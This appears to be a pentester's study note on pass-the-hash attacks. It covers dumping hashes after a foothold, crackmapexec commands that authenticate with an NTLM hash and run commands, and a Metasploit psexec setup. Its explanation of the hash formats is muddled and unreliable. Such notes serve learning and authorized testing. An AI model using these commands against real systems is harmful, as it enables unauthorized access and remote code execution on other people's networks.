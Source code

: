 
It's an exploitation technique that involves capturing or harvesting NTLM or clear-text hashes and utilizing them to auth with the target legitimately.

This is related mostly to [[Metasploit]] and [[Post Exploitation]]

Once we have a foothold we can use hashdump to get the NTL/NT Hash which is needed along with the password hash

When we have both we can use psexec exploit (see options, we set SMBPass as the password hash and then separated with : the NTL/NT hash)

We can also use crackmapexec

``` bash
crackmapexec smb [IP] -u [username] -H "[NTLM Hash]"
```

We can then run commands with

``` bash
crackmapexec smb [IP] -u [username] -H "[NTLM Hash]" -X "[commandToRun]"
```


(We can also use PsExec, to see how to get hashes checkout [[Dumping Hashes with Mimikatz]])

To use PsExec with msfconsole:

``` bash
use exploit/windows/smb/psexec
set LPORT [lPORT]
set RHOSTS [rIP]
set SMBUser [user]
set SMBPass [hash]
set target Native\ upload
```

Then run with exploit to obtain a session